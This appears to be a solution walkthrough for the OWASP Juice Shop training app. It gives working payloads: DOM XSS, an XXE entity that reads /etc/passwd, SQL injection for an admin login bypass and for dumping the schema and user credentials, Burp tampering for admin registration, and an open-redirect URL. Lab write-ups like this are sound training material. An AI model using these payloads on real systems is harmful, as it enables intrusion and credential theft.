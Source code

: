 ## Task 1: Score Board
Add the `/score-board` to the URL of the website to access page

## Task 2: DOM XSS
Add the `<iframe src="javascript:alert(`xss`)">` code into the search query of the website after `search?q=`

## Task 3: Zero Stars
1. Complete the Captcha challenge and write some comment. Remove the `disabled=true` tag of the submit button and set the `valuenow=0` property on the UI element. Press the submit button to send the request and succeed 0-star review.

2. Before sending the request to place any random review, turn on intercepting in `Burp` such that the request gets stored. Modify the value field to be set to `0` and then forward the request. Hint: with request press `Action >> Send to Repeater` to attempt attacks on the request rating.
![Request](image.png)

## Task 4: Admin Registration
Send a intercepted request to create a new user using `Burp`. Analyze the fields in the response JSON and the field `"role"="admin"` to another user to create it with admin privileges.

## Task 5: Admin Section 
![Admin Path](image-1.png)
Add the `administration` endpoint to access that page

## Task 6: Deprecated Interface
Change the allowed file types in the Complaint section to add `.xml` and upload any XML file
![Allowed Uploads](image-2.png)

## Task 7: XXE Data Access
Upload an XML file with a payload inside it:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
## Task : Login as Admin - SQL Injection
Add `' OR true--` to the email field on the login page

## Task 8: Database Schema - SQL Injection
Server is using the relational database SQLite
`')) UNION SELECT 1,2,3,4,5,6,7,8,SQL FROM SQLITE_SCHEMA--` add the payload to the search field, to reveal DB schema structure
or alternative `qwert ')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master--` as payload

![User Table DB Schema](image-5.png)

## Task 9: User Credentials
SQL Injection with payload:
`qwert')) UNION SELECT username,password,email,3,4,5,6,7,8 FROM Users--`

![User Credentials](image-4.png)

## Task 10: Outdated Allowlist
Search for `/redirect?to` in the `main.js` file and access one of the crypto websites using the redirect.
`http://localhost:3000/redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm`

## Task 11: Bjoern's Favourite Pet
Change the password with pet name `Zaya`

## Task 12: Cross-site Imaging
Use the forgotten `?testDecal=...` query parameter combined with a redirect to the kitten page
URL format: `http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2F..%2Fredirect%3Fto%3Dhttps:%2F%2Fplacekitten.com%2Fg%2F400%2F500%3Fx%3Dhttps:%2F%2Fgithub.com%2Fbkimminich%2Fjuice-shop`

## Task 13: Login Bjoern
![Password Setting](image-3.png)
Bjoern's password hash (reversed + Base64 encoded): `bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=`
Bjoern's email: `bjoern.kimminich@gmail.com`

## Task 14: Weird Crypto
The vulnerable crypto libraries are `MD5`, `hashid`, `base64`, `z85` and `base85`
Submit a `Contact Us` form with one of these answers.

## Task 15: Vulnerable Library
The vulnerable libraries are `sanitize-html@1.4.2` and `express-jwt@0.1.3` using `npm-audit` CLI tool.
Submit a `Contact Us` form with one of these answers.